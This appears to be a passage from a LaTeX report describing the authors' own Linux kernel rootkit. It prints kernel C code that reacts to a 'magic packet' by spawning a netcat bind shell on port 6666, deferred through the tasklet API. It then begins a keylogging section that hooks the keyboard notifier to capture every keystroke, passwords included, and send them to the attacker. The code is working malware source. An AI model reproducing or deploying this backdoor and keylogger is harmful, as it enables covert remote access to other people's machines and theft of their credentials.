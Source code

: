 \documentclass[12pt]{article}
\newcommand{\shellcmdinline}[1]{\texttt{\footnotesize #1}}
\begin{document}
\begin{lstlisting}[caption=Span netcat in userland., label=backdoor]
void shell_tasklet_fn(unsigned long data){
		static char *envp[] = {
	        "HOME=/",
	        "TERM=linux",
	        "PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };
	char *argv3[] = {"/bin/sh", "-c", "/bin/netcat -l -p 6666 -e /bin/sh &", NULL};
	call_usermodehelper(argv3[0], argv3, envp, UMH_NO_WAIT);

}
\end{lstlisting}

The hard part was not the creation of the process itself but doing it inside of an interrupt handler (reception of magic packet). Many functions can not be called safely (long running functions and so on) inside the context of an interrupt. Because of that we used the tasklet API to defer the execution of \shellcmdinline{call\_usermodehelper} to a save point in time into the kernel context. Listing \ref{tasklet} shows the usage of the tasklet API to start the \shellcmdinline{shell\_tasklet\_fn} in a deferred and safe manner.

 \begin{lstlisting}[caption=Tasklet API., label=tasklet]
DECLARE_TASKLET(shell_tasklet, shell_tasklet_fn, 0);

void start_remote_shell(void){
	tasklet_schedule( &shell_tasklet );
}
 \end{lstlisting}



\newpage
\subsection{Keylogging}
This section deals with keylogging in the linux kernel. Keylogging describes the process of intercepting all input-keys, this includes also all passwords, usernames or bank account informations assuming the user entered this information, from a keyboard.  Our rootkit intercepts all keys and sends them to the attacker. To make it harder to detect the rootkit with the keylogging function it is possible to activate and deactivate it with magic packets, see \ref{sec:magicpackage}.  \newline
The linux kernel already provides a method to intercept all keys, to use this implementation it is necessary to include the keyboard header and define a new \lstinline{struct notifier_block keyboard_notifier}, see Listing \ref{includeKey}.

\begin{lstlisting}[caption=Keyboard header., label=includeKey]
#include <linux/keyboard.h>

static struct notifier_block keyboard_notifier = {
  .notifier_call = keyboard_hook
};

int keyboard_hook(struct notifier_block *, unsigned long code, void *);
\end{lstlisting}
\end{document}
